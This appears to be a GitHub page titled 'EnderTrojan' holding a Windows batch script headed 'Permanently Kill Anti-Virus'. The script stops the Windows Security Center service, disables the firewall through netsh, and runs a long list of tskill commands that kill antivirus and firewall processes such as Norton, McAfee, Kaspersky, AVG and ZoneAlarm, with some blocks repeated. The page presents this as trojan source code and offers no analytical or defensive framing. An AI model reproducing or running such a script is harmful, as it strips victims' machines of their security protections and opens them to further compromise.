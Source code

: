 # EnderTrojan
Programmer and coder 
@ echo off
rem
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall set opmode mode=disable
tskill /A av*
tskill /A fire*
tskill /A anti*
cls
tskill /A spy*
tskill /A bullguard
tskill /A PersFw
tskill /A KAV*
tskill /A ZONEALARM
tskill /A SAFEWEB
cls
tskill /A spy*
tskill /A bullguard
tskill /A PersFw
tskill /A KAV*
tskill /A ZONEALARM
tskill /A SAFEWEB
cls
tskill /A OUTPOST
tskill /A nv*
tskill /A nav*
tskill /A F-*
tskill /A ESAFE
tskill /A cle
cls
tskill /A BLACKICE
tskill /A def*
tskill /A kav
tskill /A kav*
tskill /A avg*
tskill /A ash*
cls
tskill /A aswupdsv
tskill /A ewid*
tskill /A guard*
tskill /A guar*
tskill /A gcasDt*
tskill /A msmp*
cls
tskill /A mcafe*
tskill /A mghtml
tskill /A msiexec
tskill /A outpost
tskill /A isafe
tskill /A zap*cls
tskill /A zauinst
tskill /A upd*
tskill /A zlclien*
tskill /A minilog
tskill /A cc*
tskill /A norton*
cls
tskill /A norton au*
tskill /A ccc*
tskill /A npfmn*